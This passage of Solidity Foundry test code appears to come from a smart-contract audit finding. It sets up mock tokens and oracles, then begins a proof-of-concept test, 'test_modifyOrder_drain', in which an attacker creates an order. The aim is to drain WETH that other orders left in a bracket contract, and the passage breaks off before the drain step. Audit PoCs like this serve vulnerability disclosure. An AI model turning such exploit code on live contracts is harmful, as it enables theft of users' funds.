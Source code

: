 ```solidity
        vm.prank(alice);
        _usdc.approve(address(bracket), 1000000e8);

        usdc = IERC20(address(_usdc));

        MockToken _weth = new MockToken();
        _weth.initialize("weth", "WETH", 18);
        _weth.mint(address(this), 1e6 ether);
        _weth.mint(alice, 1e6 ether);
        _weth.approve(address(bracket), 1e6 ether);
        vm.prank(alice);
        _weth.approve(address(bracket), 1e6 ether);

        weth = IERC20(address(_weth));

        vm.label(address(usdc), "USDC");
        vm.label(address(weth), "WETH");

        tokens.push(usdc);
        tokens.push(weth);

        oracles.push(IPythRelay(usdcOracle));
        oracles.push(IPythRelay(wethOracle));

        master.registerOracle(tokens, oracles);
        master.setMaxPendingOrders(100);

        vm.mockCall(usdcOracle, abi.encodeWithSignature("currentValue()"), abi.encode(1e8));
        _updateETHPrice(4000);
    }

    function _updateETHPrice(uint256 price) internal {
        vm.mockCall(wethOracle, abi.encodeWithSignature("currentValue()"), abi.encode(price * 1e8));
    }

    function test_modifyOrder_drain() public {
      // @audit POC modify order

        // 1/ assumee that contract has WETH balance
        // which can be from other orders
        weth.transfer(address(bracket), 1 ether);

        // contract WETH balance before order is created
        uint initialWethBalance = weth.balanceOf(address(bracket));

        uint96 orderId = master.generateOrderId(address(this));
        currentOrderId = orderId;

        // 2/ attacker creates order
        bracket.createOrder({
            swapPayload: new bytes(0),
            takeProfit: 4100 * 1e8,
            stopPrice: 0,
            amountIn: 1 ether,
            tokenIn: weth,
            tokenOut: usdc,
            recipient: address(this),
            feeBips: 0,
            takeProfitSlippage: 0,
            stopSlippage: 0,
            permit: false,
            permitPayload: new bytes(0)
```